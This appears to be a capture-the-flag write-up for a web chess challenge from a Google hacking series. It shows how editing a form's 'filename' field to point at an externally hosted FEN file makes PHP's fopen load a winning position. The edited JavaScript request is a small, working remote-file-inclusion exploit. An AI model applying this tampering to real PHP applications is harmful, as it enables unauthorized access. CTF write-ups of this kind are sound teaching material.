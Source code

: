 # Challenge 01

## Hint

A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.

Hint: Don't make this game harder than it needs to be

https://hackerchess-web.h4ck.ctfcompetition.com/

-----

## Initial thoughts

- Use load_baseboard() to load a winning game position by using a url to a hosted fen file.

- Manipulate the base64 string for positions

- Log into admin panel

-----

## Solution

- Use load_baseboard() to load a winning game position by using a url to a hosted fen file.

- PHP function fopen can recieve urls as filenames. https://www.php.net/manual/en/function.fopen.php

- Edit the xhr form data of the 'filename' to a fen file hosted elsewhere with a winning position, the [Scholar's Mate](https://en.wikipedia.org/wiki/Scholar%27s_mate).

- Used https://lichess.org/editor to get FEN

```javascript
// original
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}

// edit
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'https://raw.githubusercontent.com/jc190/h4ck1ng-google-progress/master/EP000/Challenge-01/s-mate.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  // window.location.href = "index.php";
}
```
